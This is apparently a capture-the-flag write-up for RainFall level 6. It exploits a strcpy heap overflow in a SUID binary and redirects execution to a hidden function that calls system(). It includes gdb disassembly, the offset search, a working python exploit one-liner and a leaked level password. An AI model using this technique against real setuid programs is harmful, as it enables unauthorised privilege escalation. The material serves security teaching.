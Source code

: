 # Level 6

## Vulnerability

strcpy() buffer overflow

## Context

We find a binary with owner level7 and SUID.
```
level6@RainFall:~$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
It segfaults when run without arguments. It replies to random arguments with "Nope".
```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 Would you like to be my friend?
Nope
```

## Solution

Investigating with gdb, we find the main calls function ```m``` which writes "Nope".
```
level6@RainFall:~$ gdb -q level6
...
(gdb) disas main
...
   0x080484a5 <+41>:	mov    $0x8048468,%edx        ; load address of function m
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; strcpy() argv[1] to 64 byte buffer
...
   0x080484d0 <+84>:	call   *%eax                  ; call function m
...
(gdb) disas m
...
   0x08048475 <+13>:	call   0x8048360 <puts@plt>   ; write "Nope"
```
But we also find a similar uncalled function ```n``` which calls ```system()```, opening a shell and showing the password.
```
(gdb) info functions
...
0x08048454  n
...
(gdb) disas n
...
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```
strcpy() copies argv[1] to a 64 byte buffer on the heap.

Let's try to overflow this buffer and overwrite ```eip``` with the address of ```n```, thereby jump to executing ```n```.

First, using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 72.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
0x41346341 in ?? ()
```
So we build our exploit string:
1. 72 bytes padding
2. address of ```n``` - "\x54\x84\x04\x08"

Then give the exploit string as argument to the binary
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Recreate Exploited Binary

As user level7, in /tmp, create and compile level6_source.c.
```
level7@RainFall:/tmp$ gcc level6_source.c -o level6_source
```
Edit permissions including suid, then move the binary to home directory.
```
level7@RainFall:/tmp$ chmod u+s level6_source; chmod +wx ~; mv level6_source ~
```
Exit back to user level6, then run the source with an updated address of function ```n``` (found with gdb).
```
level7@RainFall:/tmp$ exit
exit
level6@RainFall:~$ /home/user/level7/level6_source $(python -c 'print "A" * 72 + "\x88\x84\x04\x08"')
```
